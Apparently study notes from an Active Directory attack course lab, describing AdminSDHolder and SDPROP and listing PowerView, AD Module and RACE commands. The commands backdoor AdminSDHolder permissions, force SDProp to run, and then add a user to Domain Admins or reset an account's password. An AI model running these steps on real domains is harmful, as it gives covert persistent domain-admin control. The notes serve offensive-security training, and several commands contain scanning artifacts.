 - Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups ( called Protected Groups).     
- Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.
![[Protected Groups.png]]
- Well known abuse of some of the Protected Groups - All of the below can log on locally to DC
![[Protected Groups Abuse.png]]

- With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object. 
- In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it.

- Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA: 
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 - Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
- Using ActiveDirectory Module and RACE toolkit (https://github.com/samratashok/RACE) :
```
 Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 - Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' - Verbose
```

- Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder,:     
```
#Reset Password

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc al' -PrincipalIdentity student1 -Rights ResetPassword - PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose 

#Write Member
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

- Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory: 
```
Invoke-SDPropagator -timeoutMinutes 1 -showProgress - Verbose
```
- For pre-Server 2008 machines: 
```
Invoke-SDPropagator -taskname FixUpInheritance - timeoutMinutes 1 -showProgress -Verbose
```

- Check the Domain Admins permission -  
```
#PowerView as normal user

Get-DomainObjectAcl -Identity 'Domain Admins' - ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}


#Using ActiveDirectory Module

(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Ac cess | ?{$_.IdentityReference -match 'student1'} 
```

- Abusing FullControl : 
```
#using PowerView

Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose


#Using ActiveDirectory Module

Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

- Abusing ResetPassword:
 ```
 #using PowerView
 
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText - Force) -Verbose

#Using ActiveDirectory Module

Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText - Force) -Verbose
```
 